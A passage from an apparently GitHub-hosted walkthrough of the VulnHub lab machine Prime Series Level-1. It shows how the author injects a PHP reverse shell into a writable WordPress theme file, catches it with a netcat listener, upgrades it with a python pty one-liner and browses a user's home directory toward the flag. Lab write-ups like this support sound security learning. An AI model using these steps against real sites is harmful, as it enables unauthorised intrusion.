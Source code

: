 ## It,s time to gain the initial foothold i.e gaining a shell on the box

### So we navigate to the theme editor there we find that we cannot the files because it is not editable by the server side, then after enumerating on the twenty nineteen theme we got a file which is writeable i.e "secret.php"
![06.png](https://github.com/sigwotts/vulnhub/blob/main/Prime_Series_Level-1/06.png)

### There i uploaded my php reverse shell to get the shell on the box
### After pasting the shell script on the secret.php file, i opened my netcat listner and i curl the secret.php file(we can find the url by using google) 
```
nc -lnvp 4444
```
```
curl http://192.168.1.86/wordpress/wp-content/themes/twentynineteen/secret.php
```

## BOOOOOOMMMMMMM!!!!!!!!!, I GOT THE SHELL
### Firstly we stablaized the shell using 
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
```
### Then we navigate to users directory to find the user flag
```
www-data@ubuntu:/$ cd /home
cd /home
www-data@ubuntu:/home$ ls
ls
saket  victor
www-data@ubuntu:/home$ cd saket
cd saket
www-data@ubuntu:/home/saket$ ls
ls
enc  password.txt  user.txt
www-data@ubuntu:/home/saket$ cat user.txt
cat user.txt
```